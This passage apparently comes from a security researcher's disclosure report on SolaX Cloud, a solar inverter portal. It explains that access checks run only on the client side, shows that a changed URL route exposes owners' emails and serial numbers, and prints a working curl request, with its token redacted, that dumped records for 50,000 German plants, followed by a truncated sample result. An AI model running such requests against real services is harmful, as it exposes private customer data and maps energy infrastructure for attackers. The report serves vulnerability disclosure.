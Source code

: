 Note that at the time this report is written, more than 350.000 devices were potentially accessible online, 55.000 thereof in Germany.

The cloud web access at `solaxcloud.com` consists in many java-scripts running on the client side. Many security relevant checks are done on the client side, so that they can be bypassed. 
For example, after log-in following url was displayed: `https://solaxcloud.com/#/overview`. By changing it to `https://solaxcloud.com/#/deviceupgrade` the list of all accessible inverters was shown (including owners mail addresses, serial numbers, plant names):

![Data](https://raw.githubusercontent.com/veganmosfet/CyberEclipse/main/pics/s1.png)

Here is the command used to get the information from 50.000 plants in Germany (the token is a simple session token):

```sh
curl 'https://www.solaxcloud.com/blue/phoebus/update/getUpdatePage' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryI' \
  -H 'User-Agent: ' \
  -H 'token: xxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx' \
  --data-raw $'------WebKitFormBoundaryI\r\nContent-Disposition: form-data; 
  name="nation"\r\n\r\nGERMANY\r\n------WebKitFormBoundaryI\r\nContent-Disposition: form-data; 
  name="agentId"\r\n\r\n\r\n------WebKitFormBoundaryI\r\nContent-Disposition: form-data; 
  name="size"\r\n\r\n50000\r\n------WebKitFormBoundaryI\r\nContent-Disposition: form-data; 
  name="current"\r\n\r\n1\r\n------WebKitFormBoundaryI--\r\n'
```

And here is a sample of the result (1 plant):

```json
[
  {
    "id": "000000",
    "sid": "000000",
    "wifiSN": "SRxxxxxxxx",
    "deviceType": "8",
    "moduleType": null,
    "wifiVersion": "3.008.10",
    "updateFlag": 0,
    "updateStatusFlag": null,
    "upgradeTime": null,
    "nation": "GERMANY",
    "batteryFlag": "1",
    "feedEnable": null,
    "blockFlag": null,
    "progress": null,
    "type": null,
    "value": null,
    "batteryType": null,
    "batterySlaverVer": null,
    "batterySlaverVer2": null,
    "chargeArmVer": null,
    "inverterType": 14,
    "agentId": null,
    "agentIds": null,
    "firmId": null,
    "inverterSN": null,
    "batterySN": null,
    "firmIds": null,
    "isSub": null,
    "subUserId": null,
    "installerId": null,
    "currentUserId": null,
    "userId": null,
    "subGroupId": null,
    "batteryBrand": null,
```